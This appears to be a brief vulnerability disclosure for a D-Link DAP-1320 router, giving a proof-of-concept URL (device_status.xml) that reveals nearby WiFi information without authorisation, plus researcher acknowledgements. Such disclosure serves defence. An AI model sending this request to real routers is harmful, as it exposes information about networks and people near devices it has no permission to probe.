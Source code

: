 #### PoC
http://targetip/device_status.xml

Attacker can get the WiFi information around the router.

![poc](https://github.com/dahua966/Routers-vuls/blob/master/DAP-1320/wds_scan.jpg)

#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：

Wei Xie

Zhen-hua Wang

En-Ze Wang